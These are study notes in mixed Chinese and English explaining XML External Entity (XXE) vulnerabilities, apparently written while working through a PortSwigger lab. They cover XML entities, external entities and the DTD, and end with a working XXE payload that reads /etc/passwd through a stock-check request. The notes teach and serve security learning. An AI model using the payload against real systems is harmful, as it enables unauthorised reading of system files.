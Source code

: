 漏洞产生原因：应用使用了XML来传输或存储data，XML标准包含有潜在风险的特性，并且标准解释器支持能造成XXE的特性



# 2.XML Entities 

 For example, the entities `&lt; and &gt;` represent the characters < and >

we call these entities(variable) by “&ENTITY_NAME"

 

XML custom entities?

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

 

XML external entities

外部实体的声明使用SYSTEM 关键字，并且必须指定一个URL，从中加载实体的值

example: 

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "[file:///path/to/file](file://path/to/file)" > ]>
```

foo就是根元素

&xxe;   通用实体 DTD顶i有，XML引用

% xxe   参数实体  DTD定义，DTD使用 %xxe;

**文档类型定义（DTD）可定义合法的XML文档构建模块**

can define the structure of an XML document

# 3.exploit

## 1.Exploiting XXE to retrieve files

[Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

example

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "[file:///etc/passwd](file://etc/passwd)"> ]>
<stockCheck>
<productId>&xxe;</productId><storeId>1</storeId>
</stockCheck>
```

（***SYSTEM*** keyword is used which instruct the DTD to load data from the following URI）
